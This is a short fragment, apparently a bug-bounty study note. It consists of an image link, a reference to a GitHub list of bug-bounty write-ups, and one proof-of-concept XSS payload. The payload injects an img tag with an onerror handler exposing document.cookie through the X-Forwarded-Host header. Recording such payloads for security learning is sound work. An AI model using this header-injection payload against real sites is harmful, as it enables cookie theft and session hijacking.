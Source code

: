 참고 : https://github.com/devanshbatham/Awesome-Bugbounty-Writeups

X-Forwarded-Host: bing.com"><img src/onerror=prompt(document.cookie)>
